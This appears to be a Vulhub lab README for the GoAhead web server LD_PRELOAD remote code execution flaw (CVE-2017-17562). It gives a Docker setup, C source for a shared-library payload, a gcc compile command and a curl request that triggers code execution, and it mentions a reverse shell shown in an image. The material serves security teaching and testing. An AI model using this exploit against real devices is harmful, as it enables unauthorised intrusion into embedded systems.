 # GoAhead Web Server HTTPd 'LD_PRELOAD' Remote Code Execution (CVE-2017-17562)

[中文版本(Chinese version)](README.zh-cn.md)

Embedthis GoAhead is the world's most popular, tiny embedded web server, which is deployed in hundreds of millions of devices and is ideal for the smallest of embedded devices.

GoAhead before 3.6.5 allows remote code execution if CGI is enabled and a CGI program is dynamically linked. This is a result of initializing the environment of forked CGI scripts using untrusted HTTP request parameters in the cgiHandler function in `cgi.c`. When combined with the glibc dynamic linker, this behaviour can be abused for remote code execution using special parameter names such as `LD_PRELOAD`. An attacker can POST their shared object payload in the body of the request, and reference it using /proc/self/fd/0.

References:

 - https://www.elttam.com.au/blog/goahead/
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

## Vulnerable environment

Execute following commands to start a GoAhead 3.6.4:

```
docker-compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI Scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on Vulhub's x86/64 environment:

```
gcc -shared -fPIC ./payload.c -o payload.so
```

Use curl to trigger the attack:

```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

Response header is output successful, which 

The request header `Hello: world!` is printed to indicate that the code has been executed:

![](1.png)

A reverse shell is got:

![](2.png)
